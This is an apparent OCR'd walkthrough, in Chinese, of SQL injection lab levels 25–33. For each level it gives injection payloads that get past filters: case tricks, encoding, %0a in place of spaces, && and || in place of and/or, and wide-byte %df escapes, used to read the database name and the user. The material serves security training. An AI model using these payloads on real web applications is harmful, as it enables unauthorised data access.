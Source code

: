 - 第二十五关(过滤or、and）
1. 大小写:Or,OR,oR
2. 编码,hex,urlencode
3. 添加注释/*or*/
4. 利用符号 and=&&  or=||

```
id=1'|| extractvalue(1,concat(0x7e,database()))--+
```
![](https://ae01.alicdn.com/kf/H33c0681536194843a0d48bf092dde652D.jpg)

![](https://ae01.alicdn.com/kf/H6d74de1b63b64f6da9045d253ac494c9J.jpg)

-第二十六关 (过滤空格)

```
id=-1'%0a%26%26'1'='2
```
![](https://ae01.alicdn.com/kf/H2137712309e04214a4b403d39613d3bc1.jpg)

-第二十七关(过滤SELECT & UNION)

```
id=-1'%0a%26%26'1'='1
index.php?id=100'%0aUNion%0aSelEcT%0a1,database(),3%0a%26%26'1
```

![](https://ae01.alicdn.com/kf/H7757307c920641918df46f8637f172a51.jpg)

-第二十八关(过滤SELECT & UNION)

```
id=1'%0aand%0a1=2%26%26'1

```

- 第三十二关（宽子节开始）

![](https://ae01.alicdn.com/kf/Hd7b8e60d6670401a9ffb075b4c8bbaf2C.jpg)

```
id=-1%df' union select 1,user(),3 --+
```
![](https://ae01.alicdn.com/kf/H7874e5c67d75461d8ef6d79d418acf09R.jpg)

- 第三十三关

```
id=-1%df' union select 1,user(),3 --+
```

![](https://ae01.alicdn.com/kf/H60628454ea6d4c918a898c99d6cc02dcW.jpg)